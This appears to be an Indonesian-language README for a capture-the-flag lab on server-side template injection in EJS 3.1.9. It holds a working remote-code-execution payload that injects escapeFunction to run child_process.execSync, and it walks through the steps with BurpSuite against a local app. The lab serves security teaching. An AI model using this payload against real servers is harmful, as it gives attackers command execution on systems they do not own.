 # 🧪 EJS-SSTI-VULN: Server-Side Template Injection Playground

> CTF Labs | by [ctflabs-id](https://github.com/ctflabs-id)

---

## 🎯 Apa Itu SSTI?

**SSTI (Server-Side Template Injection)** adalah jenis kerentanan di mana user dapat menyisipkan *template code* ke dalam input yang dirender oleh server menggunakan template engine seperti EJS, Jinja2, Twig, dan lainnya.

Dengan memanfaatkan kelemahan ini, attacker dapat:
- Mengeksekusi perintah server-side (`RCE`)
- Membaca environment variabel
- Akses ke file sistem

---

## ⚙️ Cara Kerja EJS SSTI (v3.1.9)

Pada **EJS versi 3.1.9**, jika diset `client=true` dan `escapeFunction` dilewatkan sebagai function injection, maka **arbitrary JS code** bisa dijalankan saat template dirender.

Contoh payload:
```bash
&settings[view options][client]=true
&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');
```

---

## 🚀 Instalasi Lab Lokal (only works on linux servers / os / vm, tested on Kali)

```bash
git clone https://github.com/ctflabs-id/EJS-SSTI-VULN
cd EJS-SSTI-VULN
npm install
npm start
```

💡 Jalankan pada terminal pertama ```node app.js```,
Jalankan BurpSuite pada background untuk intercept

## Step-by-Step Eksploitasi

1. Aktifkan BurpSuite Intercept
<img src="./assets/1.png"></img>
2. Buka browser ke: `http://localhost:3000/settings`
<img src="./assets/2.png"></img>
3. Masukkan credentials apapun (nama & password ex: malvin, 123)
<img src="./assets/3.png"></img>
4. Submit form dan tangkap request-nya di BurpSuite
<img src="./assets/4.png"></img>
5. Masukkan Payload SSTI ke dalam body request seperti ini:
```bash
name=ctfer&password=123&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');
```
<img src="./assets/5.png"></img>
6. Forward Request, kembali ke browser dan lihat hasil perintah dieksekusi!
<img src="./assets/6.png"></img>

<hr>

🔎 Output Contoh
```html
Welcome ctfer
web
```

🎓 Tujuan Lab Ini
1. Memahami dampak eksploitasi SSTI
2. Belajar intercept dan manipulasi request real-time
3. Eksperimen dengan template injection di Node.js (EJS Engine)

<hr> 

⚠️ Disclaimer
Lab ini hanya untuk tujuan edukasi dan riset keamanan.
Jangan gunakan teknik ini untuk menyerang sistem tanpa izin.

<hr>

🤝 Kontribusi
Pull request & issue welcome via: ctflabs-id/EJS-SSTI-VULN

🧠 Maintained by
1. GitHub: @ctflabs-id
2. Website: ctflabsid.my.id


